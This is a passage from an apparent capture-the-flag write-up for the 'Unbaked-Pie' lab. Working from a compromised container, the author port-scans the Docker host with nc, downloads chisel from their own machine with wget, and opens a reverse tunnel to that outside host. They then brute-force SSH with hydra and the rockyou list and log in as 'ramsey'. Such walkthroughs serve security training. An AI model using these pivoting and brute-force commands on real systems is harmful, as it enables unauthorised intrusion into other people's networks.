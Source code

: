 **As you can see, there is a SSH command, which connecting to `172.17.0.1` (Host) as user `ramsey`.**

**Let's use `nc` to scan all open ports:**
```shell
root@8b39a559b296:/home# nc -zv 172.17.0.1 1-65535
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 5003 (?) open
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 22 (ssh) open
```

- Host `172.17.0.1` open port: `22`

> Note: The port `5003` is opened because the web application is listening on **all interfaces**.

**Let's use `chisel` to do port forwarding:**
```shell
┌[root♥siunam]-(/opt/chisel)-[2023.01.13|09:20:16]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

root@8b39a559b296:/home# wget http://10.9.0.253/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```

```shell
┌[root♥siunam]-(/opt/chisel)-[2023.01.13|09:21:51]
└> ./chiselx64 server --reverse -p 8888
2023/01/13 09:21:55 server: Reverse tunnelling enabled
2023/01/13 09:21:55 server: Fingerprint xOiq4AJ7VODnEu1iXNOYHisx53zzaEeHiuqwLjpGngA=
2023/01/13 09:21:55 server: Listening on http://0.0.0.0:8888

root@8b39a559b296:/home# /tmp/chisel client 10.9.0.253:8888 R:2222:172.17.0.1:22
2023/01/13 01:37:54 client: Connecting to ws://10.9.0.253:8888
2023/01/13 01:37:55 client: Connected (Latency 211.976805ms)
```

Then, we can communicate to `172.17.0.1`.

**Since we know there is a user called `ramsey`, we can try to brute force SSH with `hydra`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|09:38:04]
└> hydra -l 'ramsey' -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.1 -s 2222
[...]
[2222][ssh] host: 172.17.0.1   login: ramsey   password: {Redacted}
```

Found user `ramsey`' password!

**Let's SSH into user `ramsey`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|09:40:05]
└> ssh ramsey@172.17.0.1 -p 2222
ramsey@172.17.0.1's password: 
ramsey@unbaked:~$ whoami;hostname;id;ip a
ramsey
unbaked
uid=1001(ramsey) gid=1001(ramsey) groups=1001(ramsey)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:9d:2a:2d:05:b3 brd ff:ff:ff:ff:ff:ff
    inet 10.10.49.15/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::9d:2aff:fe2d:5b3/64 scope link 
       valid_lft forever preferred_lft forever
```
